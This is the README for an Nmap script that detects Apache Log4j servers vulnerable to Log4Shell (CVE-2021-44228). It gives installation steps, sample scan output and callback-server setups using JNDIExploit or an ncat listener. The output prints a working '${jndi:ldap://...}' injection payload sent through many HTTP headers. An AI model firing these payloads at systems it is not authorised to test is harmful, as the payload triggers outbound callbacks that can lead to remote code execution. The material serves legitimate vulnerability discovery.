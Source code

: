 # Nmap Log4Shell NSE script for discovery Apache Log4j RCE (CVE-2021-44228)

CVE-2021-44228 is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:

-  Lightweight Directory Access Protocol (LDAP)
-  Secure LDAP (LDAPS)
-  Remote Method Invocation (RMI)
-  Domain Name Service (DNS)

If the vulnerable server uses log4j to log requests, the exploit will then request a malicious payload over JNDI through one of the services above from an attacker-controlled server. Successful exploitation could lead to RCE.


## Installation

Locate where your nmap scripts are located on your system:

- for *nix system it might be `~/.nmap/scripts/` or `$NMAPDIR`
- for Mac it might be `/usr/local/Cellar/nmap/<version>/share/nmap/scripts/`
- for Windows it might be `C:\Program Files (x86)\Nmap\scripts`

Copy the provided script (log4shell.nse) into that directory run `nmap --script-updatedb` to update the nmap script DB.


## Usage

    nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 172.17.42.1 
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 21:26 CET
    Nmap scan report for 172.17.42.1
    Host is up (0.000096s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | log4shell: 
    |   (!) Sent payload ${jndi:ldap://172.17.42.1:1389/log4shell/127.0.0.1/8080} using HTTP headers:
    |   
    |    - X-Api-Version (200)
    |    - User-Agent (200)
    |    - Cookie (200)
    |    - Referer (200)
    |    - Accept-Language (200)
    |    - Accept-Encoding (200)
    |    - Upgrade-Insecure-Requests (200)
    |    - Accept (200)
    |    - upgrade-insecure-requests (200)
    |    - Origin (200)
    |    - Pragma (200)
    |    - X-Requested-With (200)
    |    - X-CSRF-Token (200)
    |    - Dnt (200)
    |    - Content-Length (200)
    |    - Access-Control-Request-Method (200)
    |    - Access-Control-Request-Headers (200)
    |    - Warning (200)
    |    - Authorization (200)
    |    - TE (200)
    |    - Accept-Charset (200)
    |    - Accept-Datetime (200)
    |    - Date (200)
    |    - Expect (200)
    |    - Forwarded (200)
    |    - From (200)
    |    - Max-Forwards (200)
    |    - Proxy-Authorization (200)
    |    - Range, (200)
    |    - Content-Disposition (200)
    |    - Content-Encoding (200)
    |    - X-Amz-Target (200)
    |    - X-Amz-Date (200)
    |    - Content-Type (200)
    |    - Username (200)
    |    - IP (200)
    |    - IPaddress (200)
    |    - Hostname (200)
    |   
    |_  Inspect the callback server (172.17.42.1:1389) or web-application (127.0.0.1:8080) logs

#### Arguments

- `log4shell.callback-server`: The callback server (eg. `172.17.42.1:1389`)
- `log4shell.http-headers`: Comma-separated list of HTTP headers (eg. `X-Api-Version,User-Agent,Referer`)


### Method A:

Download JNDIExploit from GitHub (https://github.com/giterlizzi/JNDIExploit/releases/download/v1.2/JNDIExploit.zip)

Start JNDIExploit server:

    java -jar JNDIExploit.jar

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See JNDIExploit output for see the received LDAP query (log4shell/{target host}/{target port})

    [+] Received LDAP Query: log4shell/127.0.0.1/8080
    [!] Invalid LDAP Query: log4shell/127.0.0.1/8080

### Method B:

Listen a TCP port with netcat (or ncat):

    ncat -v -k -e /bin/true -l 1389

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See the target IP address in netcat (or ncat) output:

    Ncat: Connection from 172.17.0.2.
    Ncat: Connection from 172.17.0.2:38898.

# Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of nmap-log4shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License
The project is licensed under MIT License.


# Author

- Giuseppe Di Terlizzi (giterlizzi)
